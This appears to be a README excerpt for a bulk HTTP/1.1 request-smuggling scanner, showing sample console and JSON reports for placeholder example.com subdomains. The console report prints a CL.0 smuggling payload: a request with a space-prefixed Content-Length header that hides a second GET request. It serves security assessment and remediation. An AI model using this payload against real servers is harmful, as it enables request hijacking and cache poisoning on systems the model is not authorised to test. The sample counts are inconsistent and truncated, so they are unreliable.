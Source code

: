 ### **Console Report**
```
====================================================================================================
HTTP/1.1 MUST DIE - BULK SUBDOMAIN SECURITY ASSESSMENT REPORT
====================================================================================================
Subdomain List: subdomains.txt
Subdomains Scanned: 10
Subdomains Vulnerable: 3
🔥 CRITICAL-ONLY MODE: Scanning for critical vulnerabilities only

🌐 SUBDOMAIN SCAN SUMMARY
🔥 VULNERABLE SUBDOMAINS:
  • api.example.com - 2 critical vulnerabilities
  • admin.example.com - 1 critical vulnerabilities

🎯 DETAILED PROOF OF CONCEPTS
[CRITICAL] #1 - CL.0 Request Smuggling Vulnerability
Target: api.example.com
CVSS Score: 10.0

HTTP Request Payload:
GET /style.css HTTP/1.1
Host: api.example.com
 Content-Length: 23
Connection: keep-alive

GET /404 HTTP/1.1
X: y

Impact: Complete request smuggling capability...
Remediation: Migrate to HTTP/2 upstream connections...
```

### **JSON Report Structure**
```json
{
  "scan_metadata": {
    "subdomain_list": "subdomains.txt",
    "subdomains_scanned": 10,
    "subdomains_vulnerable": 3,
    "critical_only_mode": true,
    "total_vulnerabilities": 5,
    "critical_vulnerabilities": 5
  },
  "proof_of_concepts": [
    {
      "id": 1,
      "vulnerability_type": "REQUEST_SMUGGLING",
      "severity": "CRITICAL",
      "title": "CL.0 Request Smuggling Vulnerability",
      "target": "api.example.com",
      "http_request": "GET /style.css HTTP/1.1\r\nHost: api.example.com...",
      "cvss_score": 10.0,
      "impact": "Complete request smuggling capability...",
      "remediation": "Migrate to HTTP/2 upstream connections..."
    }
  ]
}
```
